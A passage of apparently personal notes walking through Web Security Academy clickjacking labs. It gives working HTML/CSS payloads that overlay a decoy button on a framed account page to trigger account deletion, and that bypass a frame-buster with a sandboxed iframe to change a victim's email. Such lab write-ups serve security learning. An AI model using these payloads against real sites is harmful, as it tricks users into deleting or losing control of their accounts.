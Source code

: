 ```html
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 500px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me!!!</div>
<iframe src="https://0aa500be031cf05b849f813a002a00c8.web-security-academy.net/my-account"></iframe>
```
As you can see, with the opacity set to 0.1, you can see that the "Click me!!!" div is right on top of the delete account button.
![](Pasted%20image%2020240405205519.png)
If we change the opacity to be 0.0001%, the original page becomes completely invisible, and the user has no idea they are actually deleting their account.
![](Pasted%20image%2020240405205642.png)

## Lab #4: Clickjacking with a Frame Buster Script
![](Pasted%20image%2020240405221649.png)
- This lab builds on the previous one. This time, the `Click Me!!` clickjack should change the user's email address. The setup is mostly the same, but with a few differences. See below:
```html
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe 
sandbox="allow-forms"
src="https://0a3400010460682f8182e46300b8009b.web-security-academy.net/my-account?email=hacker@realweb.com">
</iframe>
```
- Here, `sandbox` is set to `allow-forms`, which gives the sandboxed content the capability to send form data, while still maintaining other restrictions based on sandboxes, like disabling plugins or preventing top navigation.
- I also changed the email to be `hacker@realweb.com`.
![](Pasted%20image%2020240405221012.png)
![](Pasted%20image%2020240405221340.png)
## Lab #5: 2FA Simple Bypass
![](Pasted%20image%2020240405222651.png)